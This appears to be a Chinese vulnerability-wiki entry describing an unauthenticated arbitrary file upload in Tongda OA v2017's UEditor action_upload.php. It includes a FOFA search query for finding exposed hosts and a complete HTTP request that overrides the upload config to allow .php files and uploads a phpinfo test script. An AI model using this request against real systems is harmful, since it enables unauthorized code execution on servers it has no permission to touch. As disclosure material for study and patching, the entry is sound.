



# 通达OA UEditor集成 action_upload可控CONFIG上传

## 条目说明

- 对象与具体问题：通达OA UEditor集成；action_upload可控CONFIG上传
- 版本、配置及部署条件：2017及组件配置
- 认证与权限前提：声称未授权
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 完整CONFIG请求但落地URL/响应只截图
- 补客户端覆盖配置根因/PHP执行位置前提
- X_requested_with非标准拼法需按实现核验
- 与228版本相同性未证

## 操作风险

请求可能删除/覆盖数据、修改账号或持久改变业务状态；文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

通达OA v2017 action_upload.php 文件过滤不足且无需后台权限，导致任意文件上传漏洞

### 漏洞影响

```
通达OA v2017
```

### 网络测绘

```
app="TDXK-通达OA" 
```

### 漏洞复现

访问获取版本信息




发送请求包上传任意文件

```http
POST /module/ueditor/php/action_upload.php?action=uploadfile HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Type: multipart/form-data; boundary=---------------------------55719851240137822763221368724
X_requested_with: XMLHttpRequest
Accept-Encoding: gzip

-----------------------------55719851240137822763221368724
Content-Disposition: form-data; name="CONFIG[fileFieldName]"

ffff
-----------------------------55719851240137822763221368724
Content-Disposition: form-data; name="CONFIG[fileMaxSize]"

1000000000
-----------------------------55719851240137822763221368724
Content-Disposition: form-data; name="CONFIG[filePathFormat]"

tcmd
-----------------------------55719851240137822763221368724
Content-Disposition: form-data; name="CONFIG[fileAllowFiles][]"

.php
-----------------------------55719851240137822763221368724
Content-Disposition: form-data; name="ffff"; filename="test.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
-----------------------------55719851240137822763221368724
Content-Disposition: form-data; name="mufile"

submit
-----------------------------55719851240137822763221368724--
```

> 请求长度说明：原资料 Content-Length 为 893；静态长度已移除，应由客户端根据最终请求体的字节数生成。




再访问上传的文件 




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
